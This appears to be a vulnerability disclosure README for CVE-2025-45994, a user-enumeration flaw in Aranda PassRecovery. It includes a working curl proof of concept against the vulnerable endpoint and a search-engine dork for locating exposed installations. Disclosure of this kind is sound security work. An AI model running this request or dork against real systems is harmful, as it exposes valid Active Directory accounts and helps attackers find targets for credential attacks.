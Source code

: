 # *CVE-2025-45994: Enumeration users Active Directory in Aranda PassRecovery*

## Description
An issue in Aranda PassRecovery allows attackers to enumerate  
valid user accounts in Active Directory via sending a crafted POST  
request to /user/existdirectory/1.


## PoC
> 1.- To exploit the vulnerability, you must send a POST request with the Active Directory user to the endpoint: /APRAPI//api/v1/user/existdirectory/1 and it will respond whether it is valid or not.

```bash
curl -XPOST \
-H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36 Edg/134.0.3124.83' \
-d '"<user>"' -H 'Content-Type: application/json' -i https://<domain>/APRAPI//api/v1/user/existdirectory/1
```

## DuckDuckGo Dorking:
Link - [https://duckduckgo.com/?q=%22Aranda+PassRecovery%22+intext%3A%22Aranda+PassRecovery%22+-site%3A.arandasoft.com&t=h_](DuckduckgoDorking)
```
"Aranda PassRecovery" intext:"Aranda PassRecovery" -site:.arandasoft.com
```


## Vulnerability Type 
> User Enumeration - CWE 200


## Vendor of Product
> Aranda Software - [https://arandasoft.com](https://arandasoft.com/)


## Affected Product Code Base
> Aranda PassRecovery - Version Unknown

> URL spanish: https://web.archive.org/web/20250520233313/https://arandasoft.com/productos/service-management/password-recovery/

> URL english: https://arandasoft.com/en/productos/password-recovery/
